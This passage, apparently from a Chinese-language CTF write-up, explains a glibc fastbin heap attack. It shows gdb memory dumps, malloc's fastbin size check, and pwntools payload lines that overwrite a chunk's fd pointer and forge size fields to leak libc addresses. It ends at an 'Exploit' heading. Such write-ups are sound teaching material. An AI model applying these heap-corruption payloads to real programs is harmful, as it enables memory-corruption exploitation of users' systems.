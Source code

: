 ```
0x7f9f952dfb40 <main_arena+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7f9f952dfb50 <main_arena+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7f9f952dfb60 <main_arena+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7f9f952dfb70 <main_arena+80>:	0x00000000	0x00000000	0xe2494110	0x00005591
0x7f9f952dfb80 <main_arena+96>:	0x00000000	0x00000000	0x952dfb78	0x00007f9f
0x7f9f952dfb90 <main_arena+112>:	0x952dfb78	0x00007f9f	0x952dfb88	0x00007f9f
```

此时使用 fill 覆盖 fastbin 头部 chunk 的 fd 值，将其改写成 small chunk 的地址，那么通过两次 alloc，先将 small chunk 放入 fastbin，再将其取出来，获得指向它的 index。要这么做必须绕过 malloc 的安全检查：

```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
```

查看其 chunksize 与相应的 fastbin_index 是否匹配，实际上 chunksize 的计算方法是 `victim->size & ~(SIZE_BITS))`，而它对应的 index 计算方法为 `(size) >> (SIZE_SZ == 8 ? 4 : 3) - 2`，这里 64位的平台对应的 SIZE_SZ 是8，则 fastbin_index 为 `(size >> 4) - 2`，那么我们将 small chunk 的 size 域改写成 0x21 即可。

```
payload = p64(0)*3
payload += p64(0x21)
payload += p64(0)*3
payload += p64(0x21)
payload += p8(0x80)
fill(0, payload)

payload = p64(0)*3
payload += p64(0x21)
fill(3, payload)

alloc(0x10)
alloc(0x10)

0x302f529d7e40:	0x00000001	0x00000000	0x00000010	0x00000000
0x302f529d7e50:	0xe2494010	0x00005591	0x00000001	0x00000000
0x302f529d7e60:	0x00000010	0x00000000	0xe2494050	0x00005591
0x302f529d7e70:	0x00000001	0x00000000	0x00000010	0x00000000
0x302f529d7e80:	0xe2494090	0x00005591	0x00000001	0x00000000
0x302f529d7e90:	0x00000010	0x00000000	0xe2494070	0x00005591
0x302f529d7ea0:	0x00000001	0x00000000	0x00000080	0x00000000
0x302f529d7eb0:	0xe2494090	0x00005591	0x00000000	0x00000000
```

可以看到 index[2] 存放的是 small chunk 的地址，此时将 small chunk 的 size 改写回来，将其释放掉就可以 dump 出来了。

# Exploit
